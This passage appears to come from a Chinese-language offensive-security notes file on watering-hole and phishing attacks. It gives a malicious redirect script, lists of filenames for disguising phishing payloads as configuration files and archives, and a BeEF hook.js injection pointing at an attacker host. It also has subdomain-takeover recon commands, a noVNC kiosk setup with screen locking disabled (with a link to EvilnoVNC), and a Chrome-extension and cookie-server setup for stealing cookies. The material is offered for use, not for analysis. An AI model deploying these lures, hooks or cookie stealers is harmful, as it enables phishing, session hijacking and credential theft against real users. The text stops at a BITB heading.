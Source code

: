 ```javascript
<script>
  window.location.href = "http://IP地址或域名/malicious_page";
</script>
```

### 钓鱼文件

#### 常见伪装配置文件的文件名

系统或应用程序配置文件:

+ config.ini / settings.ini
+ config.xml / settings.xml
+ config.json / settings.json
+ app.config
+ web.config
+ system.cfg
+ default.cfg
+ .env (环境变量文件)
+ log4j2.xml / log4j.properties
+ server.properties
+ database.config / db.config
+ application.properties

软件或工具的配置文件:

+ vpn.conf
+ proxy.conf
+ ssh.config / ssh_config
+ docker-compose.yml
+ gitconfig
+ gradle.properties
+ .bashrc / .zshrc (Shell 配置文件)
+ hosts (hosts 文件)
+ ldap.conf

与安全相关的配置文件:

+ ca.crt (根证书)
+ client.crt (客户端证书)
+ server.key (服务器私钥)
+ vulnerability.report
+ security.conf
+ firewall.conf

临时文件或备份文件:

+ backup.ini / backup.xml
+ temp.ini / temp.xml
+ old.ini / old.xml
+ ~config.ini

其他配置文件：

+ readme.txt
+ license.txt
+ install.txt

#### 常见伪装压缩包的文件名

以update为主题的文件名:

+ update.zip / update.rar / update.7z
+ patch.zip / patch.rar / patch.7z
+ security_update.zip / security_update.rar
+ system_update.zip / system_update.rar
+ software_update.zip / software_update.rar

以backup为主题的文件名:

+ backup.zip / backup.rar / backup.7z
+ data_backup.zip / data_backup.rar
+ full_backup.zip / full_backup.rar
+ system_backup.zip / system_backup.rar

以document或report为主题的文件名:

+ report.zip / report.rar / report.7z
+ document.zip / document.rar / document.7z
+ invoice.zip / invoice.rar
+ contract.zip / contract.rar
+ statement.zip / statement.rar

以archive为主题的文件名:

+ archive.zip / archive.rar / archive.7z
+ archive_data.zip / archive_data.rar

以tool或utility为主题的文件名:

+ tool.zip / tool.rar / tool.7z
+ utility.zip / utility.rar / utility.7z
+ installer.zip / installer.rar

与软件或服务相关的压缩包名:

+ vpn.zip / vpn.rar / vpn.7z
+ proxy.zip / proxy.rar / proxy.7z
+ server_config.zip / server_config.rar

其他常见压缩包名:

+ files.zip / files.rar
+ data.zip / data.rar
+ images.zip / images.rar
+ assets.zip / assets.rar
+ logs.zip / logs.rar

### Hook网站

BeEF:

```bash
<script src="http://IP地址或域名:3000/hook.js"></script>
```

[hook_server.py](水坑攻击/hook_server.py)

```bash
├── templates
│   └── index.html
```

[index.html](水坑攻击/index.html)

```bash
pip install flask-cors
python hook_server.py
```

### 子域名接管

```bash
amass enum -d 域名
nslookup -type=cname 子域名
dig cname 子域名
```

```bash
apt install awscli
aws s3 ls s3://bucket-name

apt install azure-cli
az storage account show --name storage-account-name

http://用户名.github.io
```

### PWA

```bash
openssl genrsa -out key.pem 4096
openssl req -new -key key.pem -out csr.pem
openssl x509 -req -in csr.pem -signkey key.pem -out cert.pem -days 365

cert.pem > /etc/ssl/certs/
key.pem > /etc/ssl/private/
```

/etc/apache2/sites-available/default-ssl.conf:

```bash
SSLCertificateFile      /etc/ssl/certs/cert.pem
SSLCertificateKeyFile   /etc/ssl/private/key.pem
```

```bash
apt install apache2 ssl-cert
a2enmod ssl
```

[PWA](水坑攻击/PWA)

### WebView2

```bash
pip install PyQt5 Flask
```

[webview_app.py](水坑攻击/webview_app.py)

[flask_app.py](水坑攻击/flask_app.py)

```bash
python flask_app.py
python webview_app.py
```

### noVNC

```bash
apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
vncpasswd
```

/root/.vnc/xstartup:

```bash
#!/bin/sh
# Start Gnome 3 Desktop
[ -x /etc/vnc/xstartup ] && exec /etc/vnc/xstartup
[ -r $HOME/.Xresources ] && xrdb $HOME/.Xresources
vncconfig -iconic &
dbus-launch --exit-with-session gnome-session &
```

```bash
chmod +x /root/.vnc/xstartup
vncserver -depth 32 -geometry 2000x1000
```

```bash
git clone https://github.com/novnc/noVNC
./utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 80

>> gsettings set org.gnome.desktop.lockdown disable-lock-screen 'true'
>> gsettings set org.gnome.desktop.screensaver lock-enabled false
>> firefox --url=http://testphp.vulnweb.com –kiosk
```

[vnc.html](水坑攻击/vnc.html)

[EvilnoVNC](https://github.com/JoelGMSec/EvilnoVNC)

### Chrome扩展

[manifest.json](水坑攻击/manifest.json)

[background.js](水坑攻击/background.js)

[content.js](水坑攻击/content.js)

[cookie_server.py](水坑攻击/cookie_server.py)

```bash
python cookie_server.py
```

[更多content.js](水坑攻击/content.md)

### BITB
